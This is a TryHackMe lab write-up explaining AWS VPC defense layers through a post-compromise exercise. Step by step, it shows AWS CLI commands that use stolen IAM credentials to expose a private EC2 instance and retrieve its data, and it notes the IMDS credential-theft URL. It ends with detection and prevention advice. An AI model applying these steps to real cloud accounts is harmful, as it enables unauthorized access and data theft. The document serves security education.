




# AWS VPC Security: A Practical Study of Network Defense Layers and Data Exfiltration via Compromised IAM Credentials

**Platform:** TryHackMe — [Attacking and Defending AWS](https://tryhackme.com/paths)  
**Module:** Attacking and Defending Core Services  
**Room:** AWS VPC — Data Exfiltration

---

## Introduction

One of the most persistent misconceptions in cloud security is that network isolation alone is a sufficient defense. Security teams invest significant effort in configuring private subnets, restricting Security Groups, and hardening Network ACLs — and rightfully so. These controls are real and meaningful. But they all share a common dependency: they can only hold as long as the IAM credentials used to manage them remain confidential.

This research documents a controlled exercise conducted on TryHackMe that models a post-compromise cloud attack scenario. The objective was not simply to "get access" — it was to understand, layer by layer, how AWS network architecture is structured, where each defense operates, why each one alone is insufficient, and how an attacker with stolen credentials can systematically dismantle a defense-in-depth configuration using nothing but standard AWS CLI commands.

The target was a privately isolated EC2 instance called the **Engineering Wiki** — a server intentionally shielded from the public internet by three distinct AWS network controls. This document traces the process of defeating each one, explains the underlying AWS mechanics at each step, and concludes with an analysis of what this reveals about the real-world threat model for cloud environments.

---

## Background: Why This Scenario Is Realistic

Before describing the technical steps, it is worth framing why this type of attack is not just a theoretical exercise.

In a traditional on-premise network, an attacker must physically or logically "break through" a perimeter — bypassing firewalls, exploiting exposed services, or establishing an internal foothold. In AWS, the attack surface is fundamentally different. The entire infrastructure control plane is exposed to the internet by design — it is accessible via the AWS Console and API from anywhere in the world. Every `aws ec2 create-route` or `aws ec2 authorize-security-group-ingress` call is a legitimate API request. AWS does not distinguish between a sysadmin making changes from their office and an attacker making the same changes from a different continent. It only checks the credentials.

This shifts the security problem from *network perimeter defense* to *identity and access governance*. Once IAM credentials are compromised, the attacker inherits the permissions of the compromised principal — and in many real-world environments, those permissions are far broader than the principle of least privilege would recommend.

Common real-world sources of credential compromise include:

- **Hardcoded secrets in source code** committed to public repositories on GitHub. Automated bots continuously scan for key patterns and act on them within seconds of exposure.
- **SSRF attacks against the EC2 Instance Metadata Service (IMDS)**. A Server-Side Request Forgery vulnerability in any web application running on EC2 can allow an attacker to query `http://169.254.169.254/latest/meta-data/iam/security-credentials/` and retrieve temporary role credentials directly from the host.
- **Misconfigured S3 buckets** that expose application configuration files containing embedded secrets.

In this exercise, credentials were provided at the start — simulating the moment *after* the initial compromise has already occurred. The question being explored is: given credentials, what can an attacker actually do to a well-structured private VPC?

---

## The Target Environment

The lab environment consisted of a VPC containing multiple EC2 instances, one of which — the Engineering Wiki — was placed in a private subnet and deliberately isolated from the public internet. At the start of the exercise, it had:

- No public IP address
- No route from its subnet to an Internet Gateway
- A Security Group allowing only internal VPC traffic
- A Network ACL permitting only the VPC CIDR block (`10.100.0.0/21`)

To reach it from the outside, all four of these conditions had to be changed. Each one represents a distinct layer of the AWS network stack — and understanding how they interact is the core of what this exercise teaches.

---

## Step 1: Establishing a Public Identity for the Target



The first prerequisite for any external access is a routable public IP address. AWS EC2 instances in private subnets have only private IPs by default, which are unreachable from the internet. The AWS service that provides permanent public IPs is called **Elastic IP (EIP)**.

```bash
aws ec2 allocate-address
```

```json
{
    "AllocationId": "eipalloc-0***********1115e",
    "PublicIpv4Pool": "amazon",
    "PublicIp": "54.***.***.**"
}
```

The `PublicIpv4Pool: amazon` field indicates the address is drawn from AWS's own managed pool — the standard configuration. The allocation itself does nothing beyond reserving the address. It must then be attached to the specific network interface (ENI) of the target instance.

Because the lab account contained several EC2 instances, finding the correct ENI required querying the instance inventory and filtering by name:

```bash
aws ec2 describe-instances \
  --query "Reservations[*].Instances[*].{Name:Tags[?Key=='Name'].Value|[0], ENI:NetworkInterfaces[0].NetworkInterfaceId}" \
  --output table
```

```
+------------------------+------------------------+
|  eni-0da0***0647af36b  |  Engineering Wiki      |
|  eni-0a06***e1ed57936  |  My First Instance     |
|  None                  |  Bastion Host          |
+------------------------+------------------------+
```

With the correct ENI identified, the Elastic IP was attached:

```bash
aws ec2 associate-address \
  --network-interface-id eni-0da0*********36b \
  --allocation-id eipalloc-0***********1115e
```

At this point, a continuous ping was started against `54.***.***.**` to provide real-time feedback on when connectivity would actually be established. It immediately hung — as expected. A public IP exists, but there is no path through which traffic can flow.

---

## Step 2: Opening a Route to the Internet

An Elastic IP is an address label. It does not, by itself, create any network connectivity. For traffic to flow between the public internet and a subnet, the subnet's **Route Table** must contain a rule directing traffic to an **Internet Gateway (IGW)** — the AWS construct that acts as the VPC's connection point to the internet.

The lab account contained multiple IGWs, one for each TryHackMe room active in the account. This is an important observation: querying cloud resources without filtering often returns results from multiple unrelated environments. Selecting the wrong IGW produced an instructive error:

```
An error occurred (InvalidParameterValue): route table rtb-04d8***fbf79be87
and network gateway igw-00c0***c65dbf7cc belong to different networks
```

This error confirms that Route Tables and Internet Gateways are scoped to their VPC — they cannot be cross-associated. The correct IGW was identified by its tag:

```bash
aws ec2 describe-internet-gateways
```

The relevant entry:

```json
{
    "InternetGatewayId": "igw-0ee3*********9e99",
    "Tags": [{ "Key": "Name", "Value": "VPC-Capstone-IGW" }]
}
```

The private subnet's Route Table was then located:

```bash
aws ec2 describe-route-tables \
  --query "RouteTables[*].{ID:RouteTableId, Name:Tags[?Key=='Name'].Value|[0]}" \
  --output table
```

```
+------------------------+----------------------------------+
|  rtb-04d8*********e87  |  VPC-Capstone-PrivateRouteTable  |
+------------------------+----------------------------------+
```

A default route was injected — `0.0.0.0/0` means "send all traffic" to the specified gateway:

```bash
aws ec2 create-route \
  --route-table-id rtb-04d8***fbf79be87 \
  --destination-cidr-block 0.0.0.0/0 \
  --gateway-id igw-0ee3*********9e99
```

The response `{"Return": true}` confirmed the route was created. The ping, however, still produced no responses. The subnet now has a path to the internet — but the next layer of defense was holding.



---

## Step 3: Compromising the Instance-Level Firewall

AWS **Security Groups** function as stateful firewalls attached directly to EC2 instances (more precisely, to their network interfaces). "Stateful" means that when an inbound connection is permitted, AWS automatically tracks that session and allows the return traffic to flow outbound, without requiring a separate explicit rule.

By default, Security Groups deny all inbound traffic from sources not explicitly permitted. The Engineering Wiki's Security Group — described, with some irony, as `"Super Secure Security Group"` — permitted only traffic from within the VPC's own CIDR range.

```bash
aws ec2 describe-security-groups \
  --query "SecurityGroups[*].{ID:GroupId, Name:GroupName, Description:Description}" \
  --output table
```

```
+-------------------------------+-----------------------+----------------------------------+
|  Super Secure Security Group  |  sg-0a32***48b525c9c  |  Engineering Wiki Security Group |
+-------------------------------+-----------------------+----------------------------------+
```

A single command opened all protocols and all ports to any source IP:

```bash
aws ec2 authorize-security-group-ingress \
  --protocol all \
  --port 0-65535 \
  --cidr 0.0.0.0/0 \
  --group-id sg-0a32***48b525c9c
```

```json
{
    "Return": true,
    "SecurityGroupRules": [{
        "IpProtocol": "-1",
        "FromPort": -1,
        "ToPort": -1,
        "CidrIpv4": "0.0.0.0/0"
    }]
}
```

`IpProtocol: -1` is AWS notation for "all protocols." The instance-level firewall was now fully open. Yet the ping terminal remained silent. A third defense layer was discarding the packets before they could reach the instance at all.



---

## Step 4: Removing the Subnet-Level Traffic Restriction

**Network Access Control Lists (NACLs)** are a frequently misunderstood layer in AWS. While Security Groups protect individual instances, NACLs protect entire subnets — every packet entering or leaving the subnet passes through the NACL first. And unlike Security Groups, NACLs are **stateless**.

Stateless means the NACL evaluates each packet in isolation, with no awareness of whether it is part of an existing session. A packet flowing inbound is assessed against inbound rules. The corresponding reply packet flowing outbound is assessed separately against outbound rules. If either direction lacks an explicit `allow`, the packet is dropped silently. This is why, in the previous step, opening the Security Group was insufficient — the NACL was dropping the ICMP reply packets at the subnet boundary before they could return to the attacker.

The target NACL's existing rules told a clear story:

| Rule # | Direction | CIDR | Protocol | Action |
|--------|-----------|------|----------|--------|
| 100 | Inbound | 10.100.0.0/21 | All | Allow |
| 200 | Inbound | 172.18.0.0/16 | TCP 22–443 | Allow |
| 32767 | Inbound | 0.0.0.0/0 | All | **Deny** |
| 100 | Outbound | 10.100.0.0/21 | All | Allow |
| 32767 | Outbound | 0.0.0.0/0 | All | **Deny** |

Rule `32767` is the AWS default implicit deny — it exists in every NACL and cannot be removed. Rules are evaluated in ascending numerical order, stopping at the first match. By inserting a new rule at number `1`, it takes absolute priority over everything else.

Two separate commands were required — one for each traffic direction:

```bash
# Allow all inbound traffic from anywhere
aws ec2 create-network-acl-entry \
  --cidr-block 0.0.0.0/0 \
  --ingress \
  --protocol -1 \
  --rule-action allow \
  --rule-number 1 \
  --network-acl-id acl-0caa***98df7c12e9

# Allow all outbound traffic to anywhere
aws ec2 create-network-acl-entry \
  --cidr-block 0.0.0.0/0 \
  --egress \
  --protocol -1 \
  --rule-action allow \
  --rule-number 1 \
  --network-acl-id acl-0caa***98df7c12e9
```

Both commands returned no output — the expected behavior for NACL entry creation in AWS CLI. Immediately after the second command, the ping terminal responded:

```
64 bytes from 54.***.***.**:  icmp_seq=1 ttl=255 time=250 ms
64 bytes from 54.***.***.**:  icmp_seq=2 ttl=255 time=249 ms
64 bytes from 54.***.***.**:  icmp_seq=3 ttl=255 time=250 ms
```

All three network defense layers had been bypassed.

![Terminal output: successful ICMP ping responses after NACL modification]
(ping-success.png)

---

## Step 5: Data Exfiltration

With full network connectivity established, retrieving the sensitive data required nothing more sophisticated than an HTTP request to the instance's web server:

```bash
curl http://54.***.***.**
```

```html
<h1>Secret Engineering Wiki</h1>
<h2>*** *** *** *** ***</h2>
<p>The answer to the question is:
  <pre>Illudium *** *** *** Modulator</pre>
</p>
```

The exfiltration was complete.

---

## Analysis and Observations

### The Stateful vs. Stateless Distinction Is Not Intuitive

The most practically valuable insight from this exercise is the behavioral difference between Security Groups and NACLs — and how that difference can create a false sense of security.

A common assumption is: "I opened the firewall, so traffic should flow." This held for the Security Group (stateful), but not for the NACL (stateless). After opening the Security Group, the system appeared broken — ping still didn't respond. Without understanding the stateless nature of NACLs, an engineer troubleshooting this would be confused. The fix is not intuitive: you must write both the inbound and outbound rules, even for a simple ping, because the NACL does not know that an inbound packet and its outbound reply are related.

This has direct implications for incident detection: a NACL change that adds an outbound rule may appear less suspicious than an inbound rule change, but it can be equally critical to enabling an attack.

### NACL Rule Numbering Is a Security Control

The fact that NACL rules are evaluated in strict numerical order means the *position* of a rule is itself a security property. An `Allow 0.0.0.0/0` at rule number `900` is fundamentally different from the same rule at number `1` — the latter overrides everything above it, while the former would only apply to traffic not already matched by rules `100` through `899`.

In this exercise, inserting at rule `1` guaranteed our rule fired before any existing restrictions. This is a useful technique for an attacker, but it is also a useful signal for a defender: a CloudTrail event showing `CreateNetworkAclEntry` with a very low rule number (especially `1`) in a production environment is a high-confidence indicator of unauthorized change.

### The Entire Attack Used Zero Exploits

Every action in this exercise was a legitimate, documented AWS API call. No vulnerability was exploited. No zero-day was involved. No malware was deployed. The attacker was, from AWS's perspective, indistinguishable from an authorized administrator — because they were operating with valid credentials.

This underscores that the traditional "did someone hack us?" question is the wrong frame for cloud security. The better question is: "Are our IAM permissions scoped to the minimum required, and would we detect a legitimate-looking change made by an unauthorized principal?"

---

## Defensive Recommendations



Based on the attack chain documented above, the following controls would have prevented or detected this attack:

**Prevention**

The most impactful preventive control is IAM least privilege. The compromised credentials in this scenario had permissions to allocate Elastic IPs, modify Route Tables, change Security Group rules, and alter NACLs. In most real environments, a single application-level IAM user requires none of these permissions. Scoping credentials to only what is needed for a specific workload would have made every step in this exercise fail immediately.

At the organizational level, AWS Service Control Policies (SCPs) can enforce that certain sensitive API actions — such as `ec2:CreateRoute` or `ec2:CreateNetworkAclEntry` — are simply unavailable in production accounts, regardless of what individual IAM policies permit.

**Detection**

AWS CloudTrail records every API call made in an account. A monitoring rule alerting on `CreateRoute`, `AuthorizeSecurityGroupIngress`, or `CreateNetworkAclEntry` in production VPCs — particularly outside of a known change window or from an unusual source IP — would surface this attack immediately.

AWS GuardDuty adds behavioral analysis, flagging anomalous API activity patterns even when individual calls appear legitimate.

VPC Flow Logs provide network-level visibility. A private subnet suddenly generating outbound traffic to arbitrary public IP addresses is an anomaly worth investigating.

**Credential Hygiene**

The precondition for this entire attack is compromised credentials. Enforcing IMDSv2 on all EC2 instances removes the SSRF-to-IMDS credential theft vector. Integrating secret scanning tools (such as `truffleHog` or GitHub's native secret scanning) into CI/CD pipelines catches hardcoded credentials before they reach public repositories. Rotating IAM access keys on a schedule limits the window of exposure if a key is compromised without the owner's knowledge.

---

## Conclusion

This exercise reinforced that AWS network security is not a single wall — it is a series of overlapping controls, each operating at a different layer of the stack. Route Tables govern where traffic can flow at the network level. Security Groups govern which traffic is permitted at the instance level, with stateful session tracking. Network ACLs govern traffic at the subnet level, without session awareness.

The practical consequence of this layering is that each control must be independently configured and independently monitored. Misconfiguring or compromising any single layer degrades the overall posture. And when IAM credentials are involved, "compromising" a layer requires no technical skill — only the right API permissions.

The deeper conclusion is architectural: in cloud environments, identity governance is not a supporting concern around network security. It is the primary security control. Everything else — subnets, firewalls, ACLs — is downstream of it.

---

*TryHackMe | Attacking and Defending AWS | AWS VPC — Data Exfiltration*  
*Tools: AWS CLI, Kali Linux (AttackBox), curl*  
*Author: Serhii Krizhanski — QA Engineer & IT Security Enthusiast*  
*[TryHackMe Profile](https://tryhackme.com) | [GitHub](https://github.com/krizhanski)*
